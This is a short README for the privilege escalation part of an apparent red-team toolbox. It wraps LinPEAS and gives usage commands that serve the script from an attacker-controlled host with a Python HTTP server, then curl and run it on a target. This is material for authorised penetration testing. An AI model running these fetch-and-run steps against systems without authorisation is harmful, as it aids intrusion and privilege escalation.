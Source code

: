 # Privilege Escalation Phase

This phase is about expanding your own authorizations. Access to a system is often only possible with low authorizations. However, tasks from other phases of the attack lifecycle often require increased authorizations. In order for the authorizations to be increased, vulnerabilities in the system, misconfigurations or other security holes must be found.

This script implements *LinPEAS* from [PEASS-ng](https://github.com/carlospolop/PEASS-ng).

For more information, go to [LinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)

## Usage

From github:
```sh
curl -LJO https://github.com/McSquizzy/red-team-toolbox/blob/main/privesc/privesc.sh
sh privesc.sh -h
```
Local network:
```sh
# Host:
python3 -m http.server 8000 #python3
python2 -m SimpleHTTPServer 8000 #python2

# Target:
curl -LJO <Host>:8000/privesc.sh
sh privesc.sh -h
```

## Results

The results are printed directly to STDOUT.
To print the output to a file, use the following command:
```sh
sh privesc.sh -a > /output/file.txt
```
You can read the file with colors:
```sh
less -r /output/file.txt
```

## Compatibility

The script uses /bin/sh syntax and is fully POSIX compatible so can run on most unix-based (POSIX/Unix/Linux) systems.